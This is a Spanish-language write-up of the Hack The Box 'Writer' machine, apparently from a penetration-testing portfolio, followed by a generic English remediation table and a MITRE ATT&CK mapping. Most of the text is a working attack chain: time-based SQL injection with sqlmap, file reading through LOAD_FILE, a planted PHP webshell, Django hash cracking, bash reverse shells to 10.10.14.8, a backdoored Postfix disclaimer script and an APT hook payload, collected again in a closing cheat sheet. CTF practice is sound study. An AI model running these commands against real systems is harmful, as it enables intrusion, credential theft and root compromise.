
* **Assessment Step 25:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 26:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 27:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 28:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.


> 
> 
> 
> ## 1) Recon
> 
> ```bash
> nmap -Pn -sC -sV -oN nmap.txt 10.10.11.101
> # Web expuesta, login; captura con Burp la petición y guárdala en "req"
> 
> ```
> 
> Opcionalmente fuzz:
> 
> ```bash
> ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
>      -u http://writer.htb/FUZZ -ic
> 
> ```
> 
> ---
> 
> ## 2) SQL injection (time-based) en `uname`
> 
> **Archivo `req`**: incluye método/URL/headers/body de la petición de login. Si hay sesión, añade la cookie **exacta** (ojo a mayúsculas):
> 
> ```
> Cookie: session=eyJ1c2VyIjoiYWRtaW4nIG9yICcxJz0nMS0tIC0ifQ....
> 
> ```
> 
> **Detección y estabilización:**
> 
> ```bash
> sqlmap -r req --cookie 'session=TU_COOKIE' \
>   --batch --risk=3 --level=5 --threads=1 --keep-alive \
>   --technique=T --time-sec=5 \
>   --answers="follow=Y,redirect=Y,resend=Y"
> 
> ```
> 
> **Problemas que viste aquí y solución:**
> 
> - Usar `SESSION=` (mayúsculas) → **no** es la cookie correcta → **usa `session=`**.
> - Rechazar 302/redirecciones → sqlmap **se atasca** → acepta `follow/resend`.
> - `time-based` siempre es lento → usa **threads=1** y ajusta **`-time-sec`** (2–5) estable.
> 
> ---
> 
> ## 3) Privilegios del usuario DB
> 
> ```bash
> sqlmap -r req --cookie 'session=TU_COOKIE' \
>   --batch --technique=T --time-sec=5 --threads=1 \
>   --privileges
> # Viste: privilege: FILE
> 
> ```
> 
> Tener `FILE` es lo que permite usar `LOAD_FILE()` y (a veces) `INTO OUTFILE` según `@@secure_file_priv`.
> 
> Comprobar política:
> 
> ```bash
> sqlmap -r req --cookie 'session=TU_COOKIE' --batch \
>   --technique=T --time-sec=3 \
>   --sql-query "SELECT @@secure_file_priv"
> 
> ```
> 
> ---
> 
> ## 4) La pregunta “UID 1000” **sin** leer todo `/etc/passwd`
> 
> Intentar `--file-read=/etc/passwd` con **time-based** te consumió horas. La solución es **extraer sólo los bytes mínimos**:
> 
> **Primero, verifica que puedes leer algo:**
> 
> ```bash
> sqlmap -r req --cookie 'session=TU_COOKIE' --batch \
>   --technique=T --time-sec=3 --threads=1 --no-cast --hex \
>   --sql-query "SELECT HEX(SUBSTRING(LOAD_FILE('/etc/passwd'),1,16))"
> # Debe devolver algo como 726F6F743A783A30 ("root:x:0")
> 
> ```
> 
> **Saca sólo el *username* con UID 1000 (rápido):**
> 
> ```bash
> sqlmap -r req --cookie 'session=TU_COOKIE' --batch \
>   --technique=T --time-sec=3 --threads=1 --no-cast --hex \
>   --sql-query "SELECT SUBSTRING_INDEX(
>                  SUBSTRING_INDEX(
>                    SUBSTRING(LOAD_FILE('/etc/passwd'),1,LOCATE(':1000:',LOAD_FILE('/etc/passwd'))),
>                  '\n',-1),
>               ':',1)"
> 
> ```
> 
> - Si sale vacío, prueba con `:1001:` (puede que el primer usuario real sea 1001):
> 
> ```bash
> --sql-query "SELECT SUBSTRING_INDEX(
>                SUBSTRING_INDEX(
>                  SUBSTRING(LOAD_FILE('/etc/passwd'),1,LOCATE(':1001:',LOAD_FILE('/etc/passwd'))),
>                '\n',-1),
>              ':',1)"
> 
> ```
> 
> **Por qué esto va rápido:** sqlmap sólo tiene que inferir **pocos caracteres** (el nombre), no miles.
> 
> ---
> 
> ## 5) Foothold (3 caminos, según entorno)
> 
> ### A) `-os-shell` de sqlmap
> 
> ```bash
> sqlmap -r req --cookie 'session=TU_COOKIE' --batch \
>   --technique=T --time-sec=3 --os-shell
> # Dentro:
> bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'
> 
> ```
> 
> ### B) Webshell con `-file-write` (si `secure_file_priv` lo permite)
> 
> ```bash
> echo '<?php system($_GET["c"]); ?>' > /tmp/s.php
> 
> sqlmap -r req --cookie 'session=TU_COOKIE' --batch \
>   --file-write=/tmp/s.php --file-dest=/var/www/html/s.php
> 
> # http://writer.htb/s.php?c=id
> 
> ```
> 
> ### C) Credenciales por hash (Django PBKDF2)
> 
> Si sacaste algo como `pbkdf2_sha256$...`:
> 
> ```bash
> printf 'user:pbkdf2_sha256$260000$SALT$HASH\n' > hashes.txt
> python3 /usr/share/john/django2john.py hashes.txt > jtr.txt
> john --wordlist=/usr/share/wordlists/rockyou.txt jtr.txt
> john --show jtr.txt
> 
> ```
> 
> **Error típico que tuviste:** “No password hashes loaded” → solucionado usando **`django2john.py`** y formato correcto.
> 
> **Estabiliza la TTY cuando tengas shell:**
> 
> ```bash
> python -c 'import pty; pty.spawn("/bin/bash")' 2>/dev/null || script -qc /bin/bash /dev/null
> stty rows 50 cols 150; export TERM=xterm
> 
> ```
> 
> ---
> 
> ## 6) Privesc fiable: grupo **filter** y Postfix **disclaimer**
> 
> Encuentra los ficheros del grupo:
> 
> ```bash
> find / -type f -group filter \
>   -not -path "/proc/*" -not -path "/sys/*" -not -path "/dev/*" \
>   -not -path "/run/*"  -not -path "/snap/*" -not -path "/var/lib/docker/*" \
>   -printf '%p\n' 2>/dev/null
> # Verás /etc/postfix/disclaimer y “el otro” del grupo.
> 
> ```
> 
> **Modificar `disclaimer`:**
> 
> Motivo: lo ejecuta Postfix como filtro; con `#!/bin/sh` suelen fallar payloads tipo `>&` y `/dev/tcp`. Cambiamos a `bash` y añadimos reverse.
> 
> ```bash
> cp /etc/postfix/disclaimer /tmp/disclaimer
> sed -i '1 s|/bin/sh|/bin/bash|' /tmp/disclaimer
> printf "\n# payload\bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' &\n" >> /tmp/disclaimer
> chmod +x /tmp/disclaimer
> 
> ```
> 
> **Listener:**
> 
> ```bash
> rlwrap nc -lvnp 4444
> 
> ```
> 
> **Reposición continua (por si el servicio lo restaura):**
> 
> ```bash
> while true; do
>   cp /tmp/disclaimer /etc/postfix/disclaimer 2>/dev/null
>   sleep 0.2
> done
> 
> ```
> 
> **Disparar el filtro:**
> 
> Haz que pase un correo por Postfix (registro, contacto, reset, o un envío local si existe `mail`). En cuanto se ejecute el filtro, **entra la reverse** (según cómo corra el filtro, normalmente te sube a privilegios altos).
> 
> ---
> 
> ## 7) Alternativa que probaste: **APT hook** (por qué no subió)
> 
> Intentaste:
> 
> ```bash
> # (versión inicial que fallaba)
> echo 'apt::Update::Pre-Invoke {"..."};' > /etc/apt/apt.conf.d/000-shell
> 
> ```
> 
> **Problemas concretos que te frenaron:**
> 
> 1. El archivo **no** era `.conf` y/o la clave es **`APT::...`** (mayúsculas).
> 2. APT **parsea todo** ese directorio: dejaste un binario (`pspy64`) ahí → `apt-config dump` daba **Syntax error**.
> 3. Aunque lo dejes perfecto, necesitas que **APT se ejecute como root** (timer o `pkcon refresh`). En esta box, **es probable que no corra** automáticamente → el hook nunca se dispara.
> 
> **Arreglo de sintaxis (aun así no garantiza ejecución):**
> 
> ```bash
> mv /etc/apt/apt.conf.d/pspy64 /tmp/pspy64   # quitar el binario de ahí
> 
> cat > /etc/apt/apt.conf.d/000-pwn.conf <<'EOF'
> APT::Update::Pre-Invoke {
>   "bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1' &";
> };
> EOF
> 
> apt-config dump | grep -nA2 'APT::Update::Pre-Invoke'
> 
> ```
> 
> **Pero** si no hay `pkcon`/timers ni `sudo apt update`, **no** se ejecuta y no escala. Por eso en *Writer* es más fiable el camino **disclaimer**.
> 
> ---
> 
> ## 8) Flags
> 
> ```bash
> # con foothold
> cat /home/*/user.txt
> 
> # tras privesc
> cat /root/root.txt
> 
> ```
> 
> ---
> 
> ## Por qué te costó (y cómo lo solucionaste)
> 
> - **SQLi time-based**: inherentemente **lenta**. Intentar `/etc/passwd` completo te quemó horas. Solución: **query mínima** con `LOCATE(':1000:')` y `SUBSTRING_INDEX` para traer sólo el nombre → segundos.
> - **Cookies y 302**: usar `SESSION` en vez de `session` (case-sensitive) y negar redirects hizo que sqlmap “no avanzara”. Solución: cookie correcta + `-answers="follow=Y,redirect=Y,resend=Y"`.
> - **`LOAD_FILE()` nulo/ruidoso**: sin comprobar `@@secure_file_priv` o leer bytes pequeños, parecía que “no funcionaba”. Solución: primero lee 16 bytes en HEX para validar.
> - **John “No password hashes loaded”** con Django: John quiere su **formato**. Solución: `django2john.py` o usar Hashcat `m 10000`.
> - **APT hook**: directorio de conf con archivos no válidos (`pspy64`) rompía el parser; y aunque lo arregles, **no hay proceso root** que ejecute APT regularmente → no escala. Solución: abandonar ese vector aquí y usar **Postfix `disclaimer`** (que sí se ejecuta bajo el contexto correcto).
> - **`/bin/sh` vs `/bin/bash`**: tus payloads usan `>&` y `/dev/tcp` (bash). Con `sh` fallan. Solución: cambiar shebang a `#!/bin/bash`.
> 
> ---
> 
> ## Chuleta rápida de comandos
> 
> **sqlmap estable (time-based):**
> 
> ```bash
> sqlmap -r req --cookie 'session=TU_COOKIE' \
>   --batch --risk=3 --level=5 \
>   --technique=T --time-sec=3 --threads=1 --keep-alive \
>   --answers="follow=Y,redirect=Y,resend=Y"
> 
> ```
> 
> **Comprobar `FILE` y `secure_file_priv`:**
> 
> ```bash
> sqlmap ... --privileges
> sqlmap ... --sql-query "SELECT @@secure_file_priv"
> 
> ```
> 
> **Leer 16 bytes de `/etc/passwd`:**
> 
> ```bash
> sqlmap ... --no-cast --hex \
>   --sql-query "SELECT HEX(SUBSTRING(LOAD_FILE('/etc/passwd'),1,16))"
> 
> ```
> 
> **Sacar username UID 1000 (rápido):**
> 
> ```bash
> sqlmap ... --no-cast --hex \
>   --sql-query "SELECT SUBSTRING_INDEX(
>                  SUBSTRING_INDEX(
>                    SUBSTRING(LOAD_FILE('/etc/passwd'),1,LOCATE(':1000:',LOAD_FILE('/etc/passwd'))),
>                  '\n',-1),
>               ':',1)"
> 
> ```
> 
> **Privesc `disclaimer`:**
> 
> ```bash
> cp /etc/postfix/disclaimer /tmp/disclaimer
> sed -i '1 s|/bin/sh|/bin/bash|' /tmp/disclaimer
> printf "\nbash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' &\n" >> /tmp/disclaimer
> chmod +x /tmp/disclaimer
> rlwrap nc -lvnp 4444
> while true; do cp /tmp/disclaimer /etc/postfix/disclaimer 2>/dev/null; sleep 0.2; done
> # luego fuerza el flujo de correo
> 
> ```
>

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### 🛡️ Prioritized Findings, Attack Path Preconditions & Repeatable Verification

| Finding & Precondition | Attack Path Impact | Remediation Action | Repeatable Verification Command |
| :--- | :--- | :--- | :--- |
| **P1: Public-Facing Network Service Exploitation**<br>*Precondition:* Public network service reachable without rate-limiting, authentication barriers, or egress filtering. | **High / Critical (Foothold Chokepoint)**<br>Altered the primary attack path by exposing unauthenticated remote access to internal context. | Audit listening sockets via `ss -tulpn`, apply UFW / iptables rules, and patch daemon binaries. | `nmap -p- --open -T4 $TARGET_IP` |
| **P1: Local Privilege Escalation**<br>*Precondition:* Missing kernel hotfixes, legacy software versions, or world-readable credential configuration files. | **Critical (Full Compromise)**<br>Enabled complete elevation of privileges from unprivileged user to superuser / administrator. | Apply OS kernel security updates and implement centralized secret management. | `uname -r && apt-get -s upgrade | grep -i security` |

#### 🔬 Repeatable Verification Procedures (Defensive Validation)

**1. Verification for Ingress / Foothold Mitigation (Public-Facing Network Service Exploitation):**
* **Validation Goal:** Confirm the remote exploitation path is definitively closed and non-exploitable.
* **Deterministic Test Command:**
```bash
nmap -p- --open -T4 $TARGET_IP
```
* **Expected Output upon Successful Remediation:**
```text
Only strictly required operational ports exposed (e.g., 443/TCP)
```

**2. Verification for Local Privilege Escalation Mitigation (Local Privilege Escalation):**
* **Validation Goal:** Enforce strict least-privilege boundary preventing local execution context from elevating to administrative/root privileges.
* **Deterministic Test Command:**
```bash
uname -r && apt-get -s upgrade | grep -i security
```
* **Expected Output upon Successful Remediation:**
```text
0 upgraded, 0 newly installed, 0 to remove (Fully patched kernel and packages)
```

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for enterprise penetration testing enablement, vulnerability research, and defensive hardening.
